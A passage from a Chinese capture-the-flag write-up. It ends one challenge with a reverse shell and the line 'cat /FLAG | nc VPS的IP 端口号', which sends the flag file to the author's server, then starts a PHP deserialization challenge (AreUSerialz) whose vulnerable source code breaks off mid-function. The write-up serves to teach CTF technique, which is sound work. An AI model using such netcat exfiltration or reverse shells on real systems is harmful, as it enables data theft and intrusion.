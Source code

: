 成功，然后看到flag，名为FLAG

下面只要再重复一次反弹shell就行了

vim 3.txt

写入内容cat /FLAG | nc VPS的IP 端口号

保存退出,重复一遍上面的操作

即可得到flag

![9](https://gitee.com/zhl250/ctfwiki/raw/master/9.png)

中间其实还有很多带坑，玄学的东西

比如服务器的端口开没开，端口是否被占用，防火墙最好关了

我做题时最大的问题就是服务器端口没关防火墙，一直出不来

也还是一个个排除可能有的问题，最终'玄学'出来了





0x03 一道简单的反序列化

靶场：buu的web 网鼎杯 2020 青龙组 AreUSerialz

源码如下

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
```